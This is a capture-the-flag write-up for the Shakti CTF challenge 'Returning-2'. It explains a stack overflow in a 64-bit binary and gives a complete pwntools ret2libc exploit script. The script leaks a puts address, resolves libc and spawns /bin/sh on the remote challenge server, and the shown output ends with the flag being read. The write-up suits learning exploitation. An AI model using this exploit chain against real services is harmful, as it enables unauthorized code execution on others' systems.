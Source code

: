 ```yaml
--- 
layout: post 
title: "[Shakti CTF] Returning-2" 
date: "2021-04-05" 
categories: PWN 
author: eurus 
---
```


In this challenge we have an elf that doesn't have PIE and no canary. The file is protected with partial RELRO and with the NX flag on the stack. 

```bash
┌──(pwn)(eurus㉿warfare)-[~/…/shakti_ctf/Returning-2]                   
└─$ python3 solver.py 
[*] '/shakti_ctf/Returning-2/chall'                                                     
     Arch:     amd64-64-little                              
     RELRO:    Partial RELRO                                
     Stack:    No canary found                              
     NX:       NX enabled
     PIE:      No PIE (0x400000)
```

The following is the result of decompiling the binary program. Can be seen in this pseudocode that the binary program take as input a value used for allocate memory with the ```alloca``` function. Then read 0x78 bytes from ```stdin```. 

```c
int main(int argc, const char **argv, const char **envp)
{
  void *ptr_malloc; // rsp
  int input_len;    // [rsp+4h] [rbp-Ch] BYREF
  void *buf;        // [rsp+8h] [rbp-8h] BYREF

  initialize(argc, argv, envp);
  printf("Enter length of input:");
  __isoc99_scanf("%d", &input_len);
  puts("Enter text:");
  ptr_malloc = alloca(16 * ((input_len + 30LL) / 0x10uLL));
  buf = (void *)(16 * (((unsigned __int64)&buf + 7) >> 4));
  read(0, buf, 0x78uLL);
  puts("Goodbye!");
  return 0;
}
```

Using gdb with 16 as lenght of input I have found with the use of cyclic that at offset 48 we have the saved ebp and after is present he return address saved in the stack. The name of the challenge suggest to me that I have to make a ret2libc. 

At this point with a payload like this:

```python
payload = b'A'*48+p64(ebp)+p64(NEW_RET_ADDRESS)
```

I can redirect the flow of the executable. In order to make a ret2libc attack I need to know where the libc is mapped in the process space, what version of glibc is used and finally I need to have the possibility to redirect the flow of the binary program (payload above). 

So now we need to leak the libc base address in order to rop to the function  ```system('/bin/sh')```. The library pwntools make this really easy.


```python
rop = ROP(elf)
rop.call('puts', [elf.got['puts']])
rop.call(0x4007A8) #main address
payload = b'A'*48+p64(ebp)+rop.chain()

p.sendline(payload)

log.info(str(p.recvuntil('\n')))
addr = u64(p.recvuntil('\n').strip().ljust(8,b'\x00'))
log.info(str(hex(addr)))

```

This script create a rop chain that call the puts and make him print his position inside the process space, finally recall the main function.
After receive the value we make some magic trick for unpack the address leaked and print it. 

With this address, taking the last 12bit (I know, I am treating it as if PIE and ASLR are active), we can search in the glibc database search. Inserting the function name and the last 12bit the website lists for us the version of the possible version of libc. For the server I have found ```libc6_2.27-3ubuntu1.4_amd64.so``` as a possible library used.

```python
libc = ELF('./libc6_2.27-3ubuntu1.4_amd64.so')
libc.address = addr - libc.symbols['puts']
```

Importing the library in the script we can calculate tha base address af the libc inside the address space of the binary program. Now we need to craft another rop chain to call the ```system('/bin/sh')```

rop = ROP(libc)
log.info(str(hex(libc.address)))
rop.call('puts', [next(libc.search(b'/bin/sh\x00'))])
rop.call('system', [next(libc.search(b'/bin/sh\x00'))])
```text

In this case i have not really understand why i need to call puts before the system for avoid the server to crash in a segmentation fault. Maybe for reallign the stack, but the server crash also using a ret gadget in order to realign the stack (so i dunno at the moment). 

So at the end this is the script that i wrote:


```python
from pwn import *

context.binary = elf = ELF('./chall')

#p = elf.process()
#gdb.attach(p, gdbscript = 'b *0x40082e')
p = remote('34.121.211.139', 3333)

p.recvuntil('Enter length of input:')
p.sendline('16')

p.recvuntil('Enter text:\n')

ebp = 0x0

rop = ROP(elf)
rop.call('puts', [elf.got['puts']])
rop.call(0x4007A8)

payload = b'A'*48+p64(ebp)+rop.chain()

p.sendline(payload)

log.info(str(p.recvuntil('\n')))
addr = u64(p.recvuntil('\n').strip().ljust(8,b'\x00'))
log.info(str(hex(addr)))

libc = ELF('./libc6_2.27-3ubuntu1.4_amd64.so')

libc.address = addr - libc.symbols['puts']

rop = ROP(libc)
log.info(str(hex(libc.address)))
rop.call('puts', [next(libc.search(b'/bin/sh\x00'))])
rop.call('system', [next(libc.search(b'/bin/sh\x00'))])

p.recvuntil('Enter length of input:')

p.sendline('16')

p.recvuntil('Enter text:\n')

payload = b'A'*48+p64(ebp)+rop.chain()
p.sendline(payload)

p.interactive()
```

and this is its execution!

```text
┌──(pwn)(eurus㉿warfare)-[~/…/ShaktiCTF_TODO/my_writeup/shakti_ctf/Returning-2]
└─$ python3 solver.py 
[*] '/home/eurus/Documents/ShaktiCTF_TODO/my_writeup/shakti_ctf/Returning-2/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 34.121.211.139 on port 3333: Done
[*] Loading gadgets for '/home/eurus/Documents/ShaktiCTF_TODO/my_writeup/shakti_ctf/Returning-2/chall'
[*] b'Goodbye!\n'
[*] 0x7f3218872aa0
[*] '/home/eurus/Documents/ShaktiCTF_TODO/my_writeup/shakti_ctf/Returning-2/libc6_2.27-3ubuntu1.4_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loading gadgets for '/home/eurus/Documents/ShaktiCTF_TODO/my_writeup/shakti_ctf/Returning-2/libc6_2.27-3ubuntu1.4_amd64.so'
[*] 0x7f32187f2000
[*] Switching to interactive mode
Goodbye!
/bin/sh
$ ls
chall
flag.txt
libc-2.27.so
run.sh
$ cat flag.txt
shaktictf{all0c4_the_m1ghty!}
```

